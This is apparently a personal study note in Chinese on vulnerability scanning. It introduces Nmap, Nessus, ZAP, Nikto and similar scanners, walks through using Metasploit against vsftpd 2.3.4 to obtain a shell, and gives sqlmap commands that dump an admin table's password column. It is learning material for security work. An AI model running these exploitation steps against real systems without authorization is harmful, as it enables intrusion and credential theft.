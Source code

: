 ```yaml
---
title: 漏洞扫描学习笔记(一)
date: 2020-05-12 21:09:17
tags: Http
---
```


## **漏洞扫描原理**

漏洞扫描器对漏洞进行扫描，以验证具体目标是否存在对应的具体漏洞。但是也存在错误扫描，需要对扫描结果进行漏洞验证。

其实扫描器的原理大致相同都是通过发送对应的验证数据到目标具体服务进行验证。当收到目标返回的响应与存在漏洞的响应一致时，就表明存在漏洞。

### 漏洞扫描工具

**Nmap**

> nmap --script vuln 目标IP地址

**Nessus** 系统漏洞扫描

**Metasploit **对扫描到的漏洞加以利用

> 以vsftpd2.3.4为例 
>
> search vsftpd  
>
> 得到 
>
> use (复制粘贴上面的路径)
>
> show payloads
>
> set payload <u>cmd/unix/interact</u> //上面展示的路径
>
> show options 设置所用的参数
>
> set rhost（上面name下面的） ip
>
> show options 观察是否设置成功
>
> exploit  溢出
>
> 得到shell

## web应用程序漏洞扫描

针对web应用程序的漏洞扫描其实就是每个扫描器读取自己的payload进行探测

> 常见Web漏洞扫描器：
>
> 1.Owasp-zap
>
> 2.awvs
>
> 3.appscan
>
> 4.nikto
>
> 5.Burpsuite
>
> 每个扫描器都有各自不同的payload探测

**Woasp-zap**

>  kali自带
>
>  直接输入url攻击即可

**Nikto** 

> nikto -host IP地址
>
> 对目标服务器进行漏洞扫描 主要针对HTTP服务器

### 漏洞利用

**Sqlmap** 对扫描到的sql注入漏洞进行利用

> 在owasp-zap 扫到的sql漏洞复制出
>
> 在浏览器里粘贴
>
> 修改不为sql报错信息
>
> 然后在终端内
>
> sqlmap -u "url"
>
> sqlmap -u "url" -T admin --columns
>
> sqlmap -u "url" -T admin -C "admin,passwprd" --dump获取对应数据
>
> 然后密文解密
>
> 得到shell